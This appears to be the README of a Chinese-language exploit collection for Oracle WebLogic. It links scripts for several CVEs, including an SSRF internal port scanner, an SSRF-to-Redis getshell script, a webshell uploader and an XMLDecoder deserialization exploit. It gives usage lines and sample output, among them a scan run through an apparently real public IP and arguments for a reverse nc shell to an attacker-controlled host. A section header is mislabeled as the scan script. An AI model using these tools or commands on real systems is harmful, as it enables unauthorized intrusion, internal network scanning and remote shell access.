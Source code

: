# About Oracle Weblogic
> WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

# Vulnerability list
[**cve-2014-4210_ssrf_scan.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2014-4210_ssrf_scan.py) Weblogic ssrf扫描内网端口利用脚本 [[使用]](https://freeerror.org/d/483-ssrf)  
[**cve-2014-4210_ssrf_redis_shell.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2014-4210_ssrf_redis_shell.py) Weblogic ssrf漏洞内网redis未授权getshell脚本[[使用]](https://freeerror.org/d/483-ssrf)  
[**cve-2017-3506_poc.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2017-3506_poc.py) Weblogic wls-wsat远程命令执行漏洞检测脚本[[使用]](https://freeerror.org/d/468-cve-2017-3506-weblogic-wls-wsat)  
[**cve-2017-3506_webshell.jar**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2017-3506_webshell.jar) Weblogic wls-wsat远程命令执行漏洞利用，上传Webshell[[使用]](https://freeerror.org/d/468-cve-2017-3506-weblogic-wls-wsat)  
[**cve-2017-10271_poc.jar**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2017-10271_poc.jar) Weblogic < 10.3.6 wls-wsat XMLDecoder反序列化漏洞[[使用]](https://freeerror.org/d/460)

# Readme
部分脚本文件使用说明，详细使用分析请参考[vulnerability-list](https://github.com/zhzyker/exphub/tree/master/weblogic#vulnerability-list)中的[使用]
- VER: 漏洞影响版本，一般情况下不在影响范围的版本没有相关漏洞
- USE: 脚本文件使用说明，大部分写在了脚本里，执行即可见
- EXP: 脚本利用示例，以及执行效果
- DES: 部分特殊脚本文件的特殊描述

## CVE-2014-4210_ssrf_scan.py Weblogic SSRF 漏洞扫描内网端口
VER:
```
Weblogic 10.0.2
Weblogic 10.3.6
```
USE:
```
zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_scan.py 
+----------------------------------------------------------------------+
+ USE: python <filename> <target_ip:port> <scan_address> <process>     +
+ EXP: python cve-2014-4210_ssrf_scan.py 1.1.1.1:7001 192.168.1.0 20   +
+ VER: 10.0.2,10.3.6                                                   +
+----------------------------------------------------------------------+
```
EXP:
```
zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_scan.py  59.110.214.109:7001 192.168.112.0 30
192.168.112
[*]+------------------------+
[*]+  Scanning ip and port  +
[*]+------------------------+
[+] 192.168.112.1:22
[+] 192.168.112.2:80
[+] 192.168.112.3:7001
[+] 192.168.112.1:7001
[+] 192.168.112.2:6379
[*]+------------------------+
[*]+     Scan completed     +
[*]+------------------------+
```

## CVE-2014-4210_ssrf_scan.py Weblogic SSRF 漏洞扫描内网端口
VER:
```
Weblogic 10.0.2
Weblogic 10.3.6
```
USE:
```
zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_redis_shell.py 
+---------------------------------------------------------------------------------------------------+
+ USE: python <filename> <weblogic_ip> <weblogic_port> <inside_ip> <inside_port> <nc_ip> <nc_port>  +
+ EXP: python filename.py 1.1.1.1 7001 192.168.1.1 6379 2.2.2.2 5555                                +
+ VER: 10.0.2,10.3.6                                                                                +
+---------------------------------------------------------------------------------------------------+
```
DES:
```
<weblogic_ip> weblogic的IP地址
<weblogic_port> weblogic的端口，一般情况下为7001
<inside_ip> 内网redis主机的IP地址，该地址通过 6.1 的scan脚本得出
<inside_port> 内网redis的端口，默认6379
<nc_ip> 反弹nc shell的IP
<nc_port> 反弹nc shell的端口
```
![Image](https://freeerror.org/assets/files/2020-04-02/1585790930-936865-weblogic-redis-shell3.png)
